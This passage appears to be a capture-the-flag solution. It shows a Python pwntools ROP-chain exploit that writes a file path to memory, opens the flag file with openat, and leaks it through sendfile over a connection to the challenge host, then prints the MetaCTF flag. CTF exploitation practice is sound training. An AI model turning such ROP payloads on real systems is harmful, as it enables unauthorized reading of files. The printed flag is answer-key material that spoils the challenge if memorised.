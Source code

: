 ```python
payload += flat(
    POP_RDI, writable_addr,
    POP_RSI, u64(b"/tmp/fla"),
    MOV_RSI_TO_MEM_AT_RDI,
    POP_RDI, writable_addr + 8,
    POP_RSI, u64(b"g.txt\x00\x00\x00"),
    MOV_RSI_TO_MEM_AT_RDI
)

# 2. Open file using openat (syscall 257)
payload += flat(
    POP_RAX, 257,
    POP_RDI, DIRFD,
    POP_RSI, writable_addr,
    POP_RDX, O_RDONLY,
    SYSCALL
)

# 3. Sendfile to stdout (syscall 40)
payload += flat(
    POP_RAX, 40,
    POP_RDI, 1,          # stdout
    POP_RSI, 3,          # assumed fd
    POP_RDX, 0,          # offset
    SYSCALL
)

# Execute
if not DEBUG:
    io = remote("host5.metaproblems.com", 7527)
else:
    io = e.process()
    
io.sendline(payload)
io.interactive()
```

Flag: `MetaCTF{l00k5_l1k3_s0m3_unf0r7unate_5ysc4lls_g0t_4dd3d_7o_7h3_51gnal_ch4t}`